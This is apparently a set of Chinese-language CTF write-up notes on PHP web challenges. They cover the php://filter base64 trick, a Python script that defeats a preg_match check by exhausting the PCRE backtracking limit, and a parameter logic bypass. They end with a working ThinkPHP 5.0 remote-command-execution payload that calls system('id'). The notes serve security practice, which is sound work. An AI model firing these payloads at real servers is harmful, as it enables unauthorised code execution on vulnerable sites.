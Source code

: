 php伪协议base64编码数据流

打印结果base64解码拿到flag

![屏幕截图 2024-04-29 194626](C:\Users\刘春明\Pictures\Screenshots\屏幕截图 2024-04-29 194626.png)

![屏幕截图 2024-04-29 195800](C:\Users\刘春明\Pictures\Screenshots\屏幕截图 2024-04-29 195800.png)

`/.+?ctfshow/is`正则?是通配符

[/s]匹配换行

[/i]匹配大小写

`?f=ctfshow`也可以拿flag

![屏幕截图 2024-04-29 201124](C:\Users\刘春明\Pictures\Screenshots\屏幕截图 2024-04-29 201124.png)

![image-20240429220951777](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240429220951777.png)

```python
import requests
url = "https://9c3e4643-ad87-44ba-a6a7-e03a134c6f42.challenge.ctf.show/"
data = {
    'f': 'dotast'*170000+'36Dctfshow'
}
res = requests.post(url=url,data=data)
print(res.text)
```

![屏幕截图 2024-04-29 202327](C:\Users\刘春明\Pictures\Screenshots\屏幕截图 2024-04-29 202327.png)

逻辑或||

`/?username=admin&password=1&code=admin`

拿到flag



## 远程命令执行

### 攻防世界php_rce

根据题目得知为php远程命令执行漏洞

![image-20240415200232546](C:\Users\刘春明\AppData\Roaming\Typora\typora-user-images\image-20240415200232546.png)

版本为5.0，上Github查找相关漏洞

最终payload

```
http://61.147.171.105:63810/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
